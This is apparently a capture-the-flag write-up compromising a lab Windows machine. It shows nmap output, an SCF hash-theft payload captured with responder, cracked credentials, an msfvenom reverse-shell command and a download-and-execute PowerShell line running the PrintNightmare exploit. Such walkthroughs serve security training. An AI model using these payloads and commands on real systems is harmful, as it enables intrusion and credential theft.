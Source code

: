 First as usual, `nmap`

```
# Nmap 7.92 scan initiated Sat Oct  9 12:38:21 2021 as: nmap -vvv -p 80,135,445,5985 -sCV -oA init 10.10.11.106
Nmap scan report for 10.10.11.106
Host is up, received syn-ack (0.062s latency).
Scanned at 2021-10-09 12:38:28 +07 for 46s

PORT     STATE SERVICE      REASON  VERSION
80/tcp   open  http         syn-ack Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        syn-ack Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-09T12:36:45
|_  start_date: 2021-10-09T00:41:27
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 29728/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 28263/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h58m08s, deviation: 0s, median: 6h58m08s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  9 12:39:14 2021 -- 1 IP address (1 host up) scanned in 53.81 seconds
```

Visiting the web server on port 80, we're met with a prompt for credentials which we don't have yet so we run `gobuster` on it while enumerating other things.

```sh
$ gobuster dir -u "http://10.10.11.106/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt -r
/index.php            (Status: 401) [Size: 20]
/images               (Status: 403) [Size: 1233]
```

We have SMB, so I tried using null authentication which didn't work.

```sh
$ smbclient -N -L //10.10.11.106/
Can't load /etc/samba/smb.conf - run testparm to debug it
session setup failed: NT_STATUS_ACCESS_DENIED
```

Going back to the website, `index.php` requires credential, and `/images` returns 403. By guessing, we can find the credentials `admin:admin` to work, so we now have access to things on the web site.

Looking around at the page, we have nothing but the "Firmware Updates" page `fw_up.php`. Looking at that page, we seem to be able to upload files. Looking up "smb share file upload exploit", I found [this article](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) demonstrating a hash theft as well as getting meterpreter shells. Of coursed, I first tried getting a meterpreter shell by generating a payload with `msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=5555 -f exe > shell.exe`, setting up a listener in `msfconsole`, and uploading the payload. However, I was unable to get a shell so I went back and tried to get hashes using a malicious SCF file. The SCF file named "@pwn.scf" contains the following.

```
[Shell]
Command=2
IconFile=\\LHOST\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```

I also ran `unix2dos` on the payload just in case. I then setup `responder` ...

```sh
$ sudo responder -wrf --lm -v -I tun0
```

... and uploaded the payload. Immediately after uploading, `responder` gets several hashes.

```
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:c987a29e06a21289:608B9876951351BC104FEFDD1C9479DD:01010000000000001806923314BDD701AE9BF3FD778C9FEA00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:dc5a110a992b32d5:A49886A6E93208F48E779682A0789D96:0101000000000000317AC63314BDD70165B77232F5B6820E00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:f21fb64bbed31d34:32FB85A6EF8A2309EBC54CEB260A5AD9:01010000000000008834F63314BDD7013A109E83CBF40DBF00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:ca1a880e875ac715:71880F6982C75DB24016EF41C0E98469:0101000000000000D4D9253414BDD7018C88F468CA37AD8400000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:16a43fe20d06e3ee:7299ED3DFC8C250808F20CC32C0561D5:0101000000000000524B5A3414BDD70100E1496233DD5F0D00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:fcc5a8b2e128f970:7D45509EB8359CA0D15C920B5F7BE8A0:0101000000000000B75C8C3414BDD70129114D71F05FDBAC00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:f3662385eaebe716:EEE9CE81D42186BCB0B772203FFD2D53:0101000000000000460CBC3414BDD70122DC0E91E6954CB500000000020000000000000000000000
```

We should be able to crack the hashes and get the password `liltony`. We can the use the credentials to log into WinRM.

```sh
$ evil-winrm -i 10.10.11.106 -u tony -p liltony
```

Since the web site had a printer on the front page and the page `/fw_up.php` was for uploading firmware for printers, I looked up "windows printer exploit" and found the recent PrintNightmare vulnerability - CVE-2021-1675. I used [this exploit](https://github.com/calebstewart/CVE-2021-1675). Due to execution policy, however, we can't just download and run `Import-Module .\cve-2021-1675.ps1`. To get pass that, I used the following.

```powershell
iex ((new-object net.webclient).DownloadString('http://LHOST:LPORT/CVE-2021-1675.ps1'))
```

We can then run `Invoke-Nightmare` and create an administrator on the machine. We can then log into the new user and act as an administrator on the machine, rooting it.
